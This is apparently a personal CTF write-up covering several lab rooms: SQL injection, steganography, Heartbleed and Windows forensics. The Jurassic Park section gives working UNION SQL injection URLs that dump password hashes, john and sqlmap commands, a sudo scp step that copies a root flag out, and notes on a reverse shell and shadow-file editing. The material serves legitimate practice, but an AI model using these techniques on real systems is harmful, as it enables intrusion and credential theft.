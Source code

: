 ```yaml
---
title: wip
layout: post
description: 
tags: ctf
date: 
toc: true
---
```


## Jursassic Park
- Looks like SQL injection from questions
- robots.txt from Pickle Rick?
- nmap shows open SSH that takes passwords
- Some fitering on id (@, -)
- Using # for comments works

### 1 - Database name and 
http://10.0.0.56/item.php?id=1%20union%20select%20null,%20null,%20null,%20DATABASE(),%20null 
- Output can be gained from the 4th or 5th column

- Use DATABASE() command

### 2 - Number of columns
- Also gives use the number of columns
- (5)

### 3 - Version of OS

- Use version() command
- http://10.0.0.56/item.php?id=1%20union%20select%20null,%20null,null%20,%20version(),%20null
- Tells us that is mysql 5.7

### 4 - dennis's password

http://10.0.0.246/item.php?id=0%20union%20select%20null,%20null,%20null,%20authentication_string,%20user%20from%20mysql.user%20LIMIT%201%20OFFSET%200%20#

- can't read /etc/passwd
- get password for mysql
john --wordlist=/usr/share/wordlists/rockyou.txt jurassic.txt

sqlmap -u http://10.0.0.246/item.php?id=1 -p id --dbms mysql 5.7 --suffix="#"

http://10.0.0.132/item.php?id=0%20union%20select%20null,%20null,%20null,%20table_name,%20table_schema%20FROM%20information_schema.tables%20WHERE%20table_schema=%22park%22%20LIMIT%201%20OFFSET%201#
users tables

http://10.0.0.132/item.php?id=0%20union%20select%20null,%20null,%20null,%20table_name,%20COLUMN_NAME%20FROM%20information_schema.columns%20WHERE%20table_name=%22users%22%20LIMIT%201%20OFFSET%202#

usernames, password

usernames filtered so

http://10.0.0.132/item.php?id=0%20union%20select%20*,%20null,%20null%20FROM%20users%20%20LIMIT%201%20OFFSET%200#

ssh access

love the sqlmap trolling

look at .bash_history
Flag 3
notice sudo us
sudo -l show scp nopasswd
sudo scp /root/flag5.txt dennis@10.0.0.132:~/

notice hint in web directory
cannot use mysql vuln so just reverse shell then esc

reverse shell to msf
local exploit suggestor

...
- ubuntu directory
- boot grub
- bash histroy of dennis

- root

scp can do local copy too
I am dumb
edit shadow file to same password as dennis and su

Flag 4 is in /tmp according to .viminfo but no sign of it

## Base 64
- Open in python
- Decode 50 times
- Print result

## Steganography

### Flag 1
Exif tool on Lenna

### Flag 2
Foremost to extract zip from Lenna
password was first flag's hex value
flag2.mp3 is a computer saying flag 2 is steganographyrules with no spaces

### Flag 3

Ran strings on "Stéphane.png" ( the longer one), flag is appended to the end of the file

### Flag 4
flag4 is a binary
ran strings on it
Saw "Nothing to see here.." followed by a base64 string
Got "stegosaurus" as the flag when decoded

### Flag 5

https://29a.ch/photo-forensics/#noise-analysis
Showed ascii characters in noise
Decoded to flag in hex
Also very visable in blue lsb

### Flag 6
Spent loads of time on this
"Intepreted outside the box" to being in the original file not the zip.
Saw some barcode like structure on the edge of the photo
Spent ages trying to decode it

Found original to have same barcode structure

On a whim downloaded the image next to the download button because that's outside of the box too
Ran exif tool 
flag 6

## Protecting Data In Transit

Vm is named heartbleed
Lots of heartbleed references
msf
scanner/ssl/openssl_heartbleed
Run till something that looks like a flag, guessed THM{} from previous challenges

## Investigating Windows
### Question 1
net localgroup Administrators
### Question 2
Look at task schduler
"Clean file system runs malicious netcat"

### Question 3
Task was created on 3/2/2019 - meaning it was compromised then

### Question 4
Windows Firewalls with Advanced Security
Inbound roles
Port 1337, "Aloow outside connections for developmnet"
Sounds fishy to me, correct answer
Correct way: Applications and services, Microsoft, Windows, Windows Firewall with Advanced Security
Gives same rule name


Event log: 
### Question 5
hosts file was in recent files
Show www.google resolving to a weird address as well as local host for virus services


### Question 6
Compromise begins at 3/2/2019 4:39:09 - powershell netcat is ran can see in powershell event log 
Event ID 4672



